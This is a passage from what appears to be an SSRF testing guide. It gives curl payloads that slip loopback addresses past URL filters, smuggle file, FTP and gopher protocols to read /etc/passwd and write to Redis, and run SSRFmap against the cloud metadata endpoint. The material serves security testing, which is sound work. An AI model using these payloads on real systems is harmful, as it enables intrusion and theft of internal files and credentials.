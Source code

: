 #### **5.2. URL Parsing Confusion**

**Bypass URL filters:**

```bash
# Unicode bypass
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://127.0.0.1%E3%80%82%E3%80%82%E3%80%82%E3%80%82:8080"

# Double encoding
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://127.0.0.1%2540:8080"

# IPv6 format
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://[::1]:8080"

# Decimal IP format
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://2130706433"
# 2130706433 = 127.0.0.1 in decimal

# Octal IP format
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://0177.0.0.1"
```

#### **5.3. Protocol Smuggling**

**Test other protocols:**

```bash
# File protocol
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=file:///etc/passwd"

# FTP protocol
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=ftp://internal-ftp-server/sensitive-data.txt"

# Gopher protocol (SMTP, Redis, etc.)
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=gopher://localhost:6379/_SET%20exploit%201"
```

---

## 🛠️ **AUTOMATED TOOLS**

### **1. SSRFmap**
```bash
git clone https://github.com/swisskyrepo/SSRFmap
cd SSRFmap
python3 ssrfmap.py -r request.txt -m readfiles

# request.txt:
GET /api/inventory/1/M?callback_url=http://169.254.169.254 HTTP/1.1
Host: yourapp.example.com
```
